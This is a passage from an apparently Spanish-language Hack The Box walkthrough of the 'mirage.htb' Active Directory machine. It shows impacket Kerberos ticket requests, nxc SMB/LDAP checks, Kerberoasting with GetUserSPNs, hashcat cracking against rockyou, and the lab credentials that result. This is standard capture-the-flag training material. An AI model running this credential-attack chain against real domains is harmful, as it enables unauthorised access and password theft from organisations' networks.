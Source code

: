 <img width="1920" height="699" alt="image" src="https://github.com/user-attachments/assets/77319c2f-eebb-4640-952c-7f762d702c3c" />

bueno es el mismo mensaje, lo importante es que hemos obtenido credenciales nuevas!

>>> credenciales david.jjackson:pN8kQmn6b86!1234@

Ahora lo prmiero que probare sera `smb`

```bash
impacket-getTGT mirage.htb/'david.jjackson':'pN8kQmn6b86!1234@' # solicitamos el ticket kerberos
```
```bash
export KRB5CCNAME=david.jjackson.ccache
```
```bash
nxc smb DC01.mirage.htb -u 'david.jjackson' -p 'pN8kQmn6b86!1234@' --shares -k
```

<img width="1920" height="469" alt="image" src="https://github.com/user-attachments/assets/54ed2a88-0887-42b4-a312-15a0ee9b4086" />

testeamos `ldap`

```bash
nxc ldap DC01.mirage.htb -u 'david.jjackson' -p 'pN8kQmn6b86!1234@' -k
```

<img width="1920" height="469" alt="image" src="https://github.com/user-attachments/assets/db67a21b-e535-4bce-bdd2-60f30f2b8d18" />

vemos que funciona correctamente, ahora vamos a buscar usuarios que lleguen a ser vulnerables a `Kerberoasting`

```bash
impacket-GetUserSPNs mirage.htb/david.jjackson -no-pass -k -dc-host DC01.mirage.htb -request -outputfile hashes.txt
```

<img width="1920" height="217" alt="image" src="https://github.com/user-attachments/assets/15b007c4-2379-42ac-b084-116bd0f12994" />

conseguimos un usuario vulnerable asi que procedemos a intentar crackear el hash obtenido

```bash
hashcat --identify hashes.txt
```

<img width="1920" height="192" alt="image" src="https://github.com/user-attachments/assets/8f8d1b01-2bcf-47cd-8008-d6c93639d208" />

```bash
hashcat -m 13100 -a 0 -w 4 -d 1 hashes.txt /usr/share/wordlists/rockyou.txt
```

<img width="1920" height="969" alt="image" src="https://github.com/user-attachments/assets/9667ac03-c1b9-4a00-b760-8138d543b2a8" />

obtenemos la password del usuario `nathan.aadam`

>>> credenciales nathan.aadam:3edc#EDC3

ahora solicitamos un ticket kerberos para este usuario

```bash
kinit nathan.aadam@MIRAGE.HTB # ingresamos la password cuando la solicite
```
